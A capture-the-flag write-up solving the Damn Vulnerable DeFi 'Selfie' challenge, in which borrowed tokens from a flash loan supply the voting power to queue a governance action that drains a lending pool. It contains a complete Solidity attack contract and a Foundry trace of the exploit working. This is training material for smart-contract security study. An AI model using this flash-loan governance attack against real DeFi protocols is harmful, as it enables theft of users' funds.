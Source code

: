 ## Selfie Challenge

### Challenge Overview:
A new lending pool has launched! It’s now offering flash loans of DVT tokens. It even includes a fancy governance mechanism to control it.

What could go wrong, right ?

You start with no DVT tokens in balance, and the pool has 1.5 million at risk.

Rescue all funds from the pool and deposit them into the designated recovery account.

**Simple to understand**:
Exploit a governance system that relies on a snapshot-based token voting mechanism to drain all tokens from the SelfiePool contract.

***Contracts in this Challenge***:
   
1. DamnValuableVotes (ERC20Votes): ERC20 token with snapshot-based voting power (uses OpenZeppelin's ERC20Votes).

2. SimpleGovernance: Contract allowing proposals to be queued and executed after a time delay, based on token voting power at the time of queueAction.

3. SelfiePool: A pool that offers ERC3156 flash loans and has emergencyExit(address) function that can be executed by governance.

### Vulnerability:

The governance system uses snapshot-based voting power, and the snapshot is taken when the queueAction() is called.

  1. A user can take a flash loan, temporarily gaining a large amount of governance tokens.

  2. During the loan, they delegate votes to themselves and queue a governance action.

  3. After the snapshot is taken and the loan is repaid, the user can still execute the queued action after the delay, even though they no longer have the tokens.

This allows a user to queue a malicious action with temporary voting power gained via flash loan.

**VulnerableFunction**:
```solidity
function queueAction(address target, uint256 value, bytes calldata data) external returns (uint256 actionId)//when call this function u must have half of the tokens,once u get the power,can make the changes in the contract

```

1. Requires the caller to have enough voting power (from snapshot) to queue.

 ```solidity
      //once u have the enough tokens u can get the power,tokens comes from via flashloan
      // u can delegate the token to the pool and get the voting power
        token.delegate(address(this));//this delegate function used to access the power once u have enough tokens
        //after delegate we can call the queueAction function 
```

2. Doesn't check token balance now, only the balance at snapshot.


### Exploit Strategy:

1. Deploy a malicious contract (SelfieAttack).
2. Take a flash loan of all tokens from the pool.
3. Delegate the borrowed tokens' votes to the attack contract.
4. Queue a governance action:
```solidity
pool.emergencyExit(attackerAddress)
```
5. Repay the flash loan.
6. Wait for the governance delay (2 days).
7. Execute the queued malicious proposal.

### Proof Of Code:
 ***observe this challenge ,exploit using single transation ***
```solidity
//this is the function where i can solve the challenge Damn-Defi-v4-selfie
function test_selfie() public checkSolvedByPlayer {
        SelfieAttack attack = new SelfieAttack(
            recovery,
            address(pool),
            address(governance),
            address(token)
        );
        attack.attack();
        // The attack contract will take a flash loan, delegate the voting power to itself,
        // queue an action to emergency exit the pool, and execute it after the delay.
        // The action will transfer all tokens from the pool to the recovery address.
    }
//SelfieAttack contract which is used to exploit the code
contract SelfieAttack is IERC3156FlashBorrower, Test {
    address public player;
    SelfiePool public pool;
    SimpleGovernance public governance;
    DamnValuableVotes public token;
    uint public actionId;
    bytes32 private constant CALLBACK_SUCCESS =
        keccak256("ERC3156FlashBorrower.onFlashLoan");

    constructor(
        address _player,
        address _pool,
        address _governance,
        address _token
    ) {
        pool = SelfiePool(_pool);
        player = _player;
        governance = SimpleGovernance(_governance);
        token = DamnValuableVotes(_token);
    }

    function attack() external {
        SelfiePool(pool).flashLoan(
            IERC3156FlashBorrower(address(this)),
            address(token),
            SelfiePool(pool).maxFlashLoan(address(token)),
            ""
        );
        // Execute the action after the delay
        vm.warp(block.timestamp + governance.getActionDelay());
        governance.executeAction(actionId);
    }

    function onFlashLoan(
        address _initiator, //who will call this function,
        address, // address of the token,
        uint256 _amount,
        uint256 _fee,
        bytes calldata //bytes for callback function
    ) external returns (bytes32) {
        require(msg.sender == address(pool), "Only pool can call");
        require(_initiator == address(this), " Initiator is not self");

        // u can delegate the token to the pool and get the voting power
        token.delegate(address(this));
        uint _actionId = governance.queueAction(
            address(pool),
            0,
            abi.encodeWithSignature("emergencyExit(address)", player)
        );

        actionId = _actionId;
        token.approve(address(pool), _amount + _fee); //approve the pool to withdraw the tokens
        return CALLBACK_SUCCESS;
    }
}

```

### Proof Of Exploit:

```yaml
# Drain all the funds from Dex contract and send to to the recovery through attacker
nithin@ScateR:~/SCATERLABs/CTFs/Dam-vulnerable-Defi$ forge test --match-test test_selfie -vvvv
[⠒] Compiling...
[⠒] Compiling 1 files with Solc 0.8.25
[⠆] Solc 0.8.25 finished in 1.97s
Compiler run successful!

Ran 1 test for test/selfie/Selfie.t.sol:SelfieChallenge
[PASS] test_selfie() (gas: 2400285)
Traces:
  [2450485] SelfieChallenge::test_selfie()
    ├─ [0] VM::startPrank(player: [0x44E97aF4418b7a17AABD8090bEA0A471a366305C], player: [0x44E97aF4418b7a17AABD8090bEA0A471a366305C])
    │   └─ ← [Return]
    ├─ [2027380] → new SelfieAttack@0xce110ab5927CC46905460D930CCa0c6fB4666219
    │   └─ ← [Return] 9566 bytes of code
    ├─ [367082] SelfieAttack::attack()
    │   ├─ [6747] SelfiePool::maxFlashLoan(DamnValuableVotes: [0x8Ad159a275AEE56fb2334DBb69036E9c7baCEe9b]) [staticcall]
    │   │   ├─ [2852] DamnValuableVotes::balanceOf(SelfiePool: [0xfF2Bd636B9Fc89645C2D336aeaDE2E4AbaFe1eA5]) [staticcall]
    │   │   │   └─ ← [Return] 1500000000000000000000000 [1.5e24]
    │   │   └─ ← [Return] 1500000000000000000000000 [1.5e24]
    │   ├─ [309199] SelfiePool::flashLoan(SelfieAttack: [0xce110ab5927CC46905460D930CCa0c6fB4666219], DamnValuableVotes: [0x8Ad159a275AEE56fb2334DBb69036E9c7baCEe9b], 1500000000000000000000000 [1.5e24], 0x)
    │   │   ├─ [33377] DamnValuableVotes::transfer(SelfieAttack: [0xce110ab5927CC46905460D930CCa0c6fB4666219], 1500000000000000000000000 [1.5e24])
    │   │   │   ├─ emit Transfer(from: SelfiePool: [0xfF2Bd636B9Fc89645C2D336aeaDE2E4AbaFe1eA5], to: SelfieAttack: [0xce110ab5927CC46905460D930CCa0c6fB4666219], amount: 1500000000000000000000000 [1.5e24])
    │   │   │   └─ ← [Return] true
    │   │   ├─ [255171] SelfieAttack::onFlashLoan(SelfieAttack: [0xce110ab5927CC46905460D930CCa0c6fB4666219], DamnValuableVotes: [0x8Ad159a275AEE56fb2334DBb69036E9c7baCEe9b], 1500000000000000000000000 [1.5e24], 0, 0x)
    │   │   │   ├─ [71415] DamnValuableVotes::delegate(SelfieAttack: [0xce110ab5927CC46905460D930CCa0c6fB4666219])
    │   │   │   │   ├─ emit DelegateChanged(delegator: SelfieAttack: [0xce110ab5927CC46905460D930CCa0c6fB4666219], fromDelegate: 0x0000000000000000000000000000000000000000, toDelegate: SelfieAttack: [0xce110ab5927CC46905460D930CCa0c6fB4666219])
    │   │   │   │   ├─ emit DelegateVotesChanged(delegate: SelfieAttack: [0xce110ab5927CC46905460D930CCa0c6fB4666219], previousVotes: 0, newVotes: 1500000000000000000000000 [1.5e24])
    │   │   │   │   └─ ← [Stop]
    │   │   │   ├─ [128147] SimpleGovernance::queueAction(SelfiePool: [0xfF2Bd636B9Fc89645C2D336aeaDE2E4AbaFe1eA5], 0, 0xa441d06700000000000000000000000073030b99950fb19c6a813465e58a0bca5487fbea)
    │   │   │   │   ├─ [1438] DamnValuableVotes::getVotes(SelfieAttack: [0xce110ab5927CC46905460D930CCa0c6fB4666219]) [staticcall]
    │   │   │   │   │   └─ ← [Return] 1500000000000000000000000 [1.5e24]
    │   │   │   │   ├─ [2500] DamnValuableVotes::totalSupply() [staticcall]
    │   │   │   │   │   └─ ← [Return] 2000000000000000000000000 [2e24]
    │   │   │   │   ├─ emit ActionQueued(actionId: 1, caller: SelfieAttack: [0xce110ab5927CC46905460D930CCa0c6fB4666219])
    │   │   │   │   └─ ← [Return] 1
    │   │   │   ├─ [25321] DamnValuableVotes::approve(SelfiePool: [0xfF2Bd636B9Fc89645C2D336aeaDE2E4AbaFe1eA5], 1500000000000000000000000 [1.5e24])
    │   │   │   │   ├─ emit Approval(owner: SelfieAttack: [0xce110ab5927CC46905460D930CCa0c6fB4666219], spender: SelfiePool: [0xfF2Bd636B9Fc89645C2D336aeaDE2E4AbaFe1eA5], amount: 1500000000000000000000000 [1.5e24])
    │   │   │   │   └─ ← [Return] 0x0000000000000000000000000000000000000000000000000000000000000001
    │   │   │   └─ ← [Return] 0x439148f0bbc682ca079e46d6e2c2f0c1e3b820f1a291b069d8882abf8cf18dd9
    │   │   ├─ [10856] DamnValuableVotes::transferFrom(SelfieAttack: [0xce110ab5927CC46905460D930CCa0c6fB4666219], SelfiePool: [0xfF2Bd636B9Fc89645C2D336aeaDE2E4AbaFe1eA5], 1500000000000000000000000 [1.5e24])
    │   │   │   ├─ emit Transfer(from: SelfieAttack: [0xce110ab5927CC46905460D930CCa0c6fB4666219], to: SelfiePool: [0xfF2Bd636B9Fc89645C2D336aeaDE2E4AbaFe1eA5], amount: 1500000000000000000000000 [1.5e24])
    │   │   │   ├─ emit DelegateVotesChanged(delegate: SelfieAttack: [0xce110ab5927CC46905460D930CCa0c6fB4666219], previousVotes: 1500000000000000000000000 [1.5e24], newVotes: 0)
    │   │   │   └─ ← [Return] 0x0000000000000000000000000000000000000000000000000000000000000001
    │   │   └─ ← [Return] true
    │   ├─ [310] SimpleGovernance::getActionDelay() [staticcall]
    │   │   └─ ← [Return] 172800 [1.728e5]
    │   ├─ [0] VM::warp(172801 [1.728e5])
    │   │   └─ ← [Return]
    │   ├─ [42855] SimpleGovernance::executeAction(1)
    │   │   ├─ emit ActionExecuted(actionId: 1, caller: SelfieAttack: [0xce110ab5927CC46905460D930CCa0c6fB4666219])
    │   │   ├─ [35828] SelfiePool::emergencyExit(recovery: [0x73030B99950fB19C6A813465E58A0BcA5487FBEa])
    │   │   │   ├─ [852] DamnValuableVotes::balanceOf(SelfiePool: [0xfF2Bd636B9Fc89645C2D336aeaDE2E4AbaFe1eA5]) [staticcall]
    │   │   │   │   └─ ← [Return] 1500000000000000000000000 [1.5e24]
    │   │   │   ├─ [31377] DamnValuableVotes::transfer(recovery: [0x73030B99950fB19C6A813465E58A0BcA5487FBEa], 1500000000000000000000000 [1.5e24])
    │   │   │   │   ├─ emit Transfer(from: SelfiePool: [0xfF2Bd636B9Fc89645C2D336aeaDE2E4AbaFe1eA5], to: recovery: [0x73030B99950fB19C6A813465E58A0BcA5487FBEa], amount: 1500000000000000000000000 [1.5e24])
    │   │   │   │   └─ ← [Return] true
    │   │   │   ├─ emit EmergencyExit(receiver: recovery: [0x73030B99950fB19C6A813465E58A0BcA5487FBEa], amount: 1500000000000000000000000 [1.5e24])
    │   │   │   └─ ← [Stop]
    │   │   └─ ← [Return] 0x
    │   └─ ← [Stop]
    ├─ [0] VM::stopPrank()
    │   └─ ← [Return]
    ├─ [852] DamnValuableVotes::balanceOf(SelfiePool: [0xfF2Bd636B9Fc89645C2D336aeaDE2E4AbaFe1eA5]) [staticcall]
    │   └─ ← [Return] 0
    ├─ [0] VM::assertEq(0, 0, "Pool still has tokens") [staticcall]
    │   └─ ← [Return]
    ├─ [852] DamnValuableVotes::balanceOf(recovery: [0x73030B99950fB19C6A813465E58A0BcA5487FBEa]) [staticcall]
    │   └─ ← [Return] 1500000000000000000000000 [1.5e24]
    ├─ [0] VM::assertEq(1500000000000000000000000 [1.5e24], 1500000000000000000000000 [1.5e24], "Not enough tokens in recovery account") [staticcall]
    │   └─ ← [Return]
    └─ ← [Stop]

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 5.62ms (2.40ms CPU time)
```



